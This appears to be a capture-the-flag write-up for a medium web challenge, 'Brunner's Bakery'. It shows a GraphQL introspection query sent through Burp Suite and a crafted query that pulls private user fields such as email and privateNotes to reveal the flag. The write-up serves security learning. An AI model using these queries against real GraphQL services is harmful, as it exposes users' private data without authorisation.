



# Brunner's Bakery

## Challenge Details

Difficulty: Medium\
Author: Quack

> Recent Graphs show that we need some more Quality of Life recipes! Can you go check if the bakery is hiding any?!

We are then given a link to a site with a bunch of simple recipes.



## Reconnaissance

Looking at the site, there's no interactive elements and nothing stands out so I immediately just go to look at the page source. Here we find a very interesting script block.

```
<script>
    fetch('/graphql', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ query: 'query { publicRecipes { name description author { displayName } ingredients { name } } }' })
    })
    .then(res => res.json())
    .then(data => {
    const container = document.getElementById('recipes');
    (data.data.publicRecipes || []).forEach(r => {
        const div = document.createElement('div');
        div.className = 'card';
        div.innerHTML = '<div class="title">' + r.name + '</div>' +
                        '<div class="author">by ' + r.author.displayName + '</div>' +
                        '<div class="desc">' + r.description + '</div>' +
                        '<div style="font-size:0.8rem;color:#777;margin-top:0.5rem;">Ingredients: ' + r.ingredients.map(i => i.name).join(', ') + '</div>';
        container.appendChild(div);
    });
    });
</script>
```

We can see the script seems to send a POST request to `/graphql` with some kind of query, and then uses that request to build the table of recipes we see on the page. To make it a bit clearer I opened the page with Burpsuite on and sent the POST request to my Repeater.



Now we can easily see the query being sent and the data being returned in a JSON format. In Burpsuite, I then edited the request to send the following query:

```
query {
  __schema {
    types {
      name
      fields {
        name
      }
    }
  }
}
```

Going through the schema there are a few different types that stand out. A few that seem interesting are the "me" type and "User" type. This implies that there is some sort of account system.

If we look at the initial query that the page makes it includes an "author" field. Additionally, the ingredient type includes an "owner" field. These both look like they could be users.

## Solution

To probe further all we have to do is take the original query and modify it so it dumps all the available "User" fields.

```
query { publicRecipes { name description author { id username displayName email notes privateNotes } ingredients { name supplier { id name owner { id username displayName email notes privateNotes } } } } }
```

Checking the output in Burpsuite we find our flag.



Flag: `brunner{Gr4phQL_1ntR0sp3ct10n_G035_R0UnD_4Nd_r0uND}`